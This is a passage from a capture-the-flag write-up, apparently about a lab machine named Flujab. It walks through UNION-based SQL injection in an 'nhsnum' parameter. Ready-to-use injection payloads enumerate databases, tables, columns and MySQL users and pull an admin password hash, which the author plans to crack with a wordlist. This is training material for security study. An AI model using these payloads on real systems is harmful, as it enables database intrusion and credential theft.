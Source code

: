 
{% include image.html image_alt="6b847537.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/6b847537.png" %}


Boom, we have injection in `nhsnum`.


{% include image.html image_alt="0c96da90.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/0c96da90.png" %}


I've worked out the following UNION-based queries to manually extract information from the database.

```
show databases
--------------
nhsnum=' UNION SELECT 1,2,GROUP_CONCAT(schema_name SEPARATOR ','),4,5 FROM information_schema.schemata;#&submit=Cancel+Appointment

show tables in 'vaccinations' database
--------------------------------------
nhsnum=' UNION SELECT 1,2,GROUP_CONCAT(table_name SEPARATOR ','),4,5 FROM information_schema.tables WHERE table_schema = 'vaccinations';#&submit=Cancel+Appointment

show columns in 'admin' table in 'vaccinations' database
--------------------------------------------------------
nhsnum=' UNION SELECT 1,2,GROUP_CONCAT(column_name SEPARATOR ','),4,5 FROM information_schema.columns WHERE table_name = 'admin' AND table_schema = database();#&submit=Cancel+Appointment

show 'password' column
----------------------
nhsnum=' UNION SELECT 1,2,password,4,5 FROM admin;#&submit=Cancel+Appointment

count rows in 'admin' table
---------------------------
nhsnum=' UNION SELECT 1,2,COUNT(*),4,5 FROM admin;#&submit=Cancel+Appointment

show database users
-------------------
nhsnum=' UNION SELECT 1,2,GROUP_CONCAT(User SEPARATOR ','),4,5 FROM mysql.user;#&submit=Cancel+Appointment
``````

Using a combination of the above queries, I was able to streamline to the following result.


{% include image.html image_alt="ac91df80.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/ac91df80.png" %}


```
1:sysadm:administrator:syadmin@flujab.htb:sysadmin-console-01.flujab.htb:a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602
```

We got ourselves a SHA256 password hash! Keep my fingers crossed that rockyou would suffice.
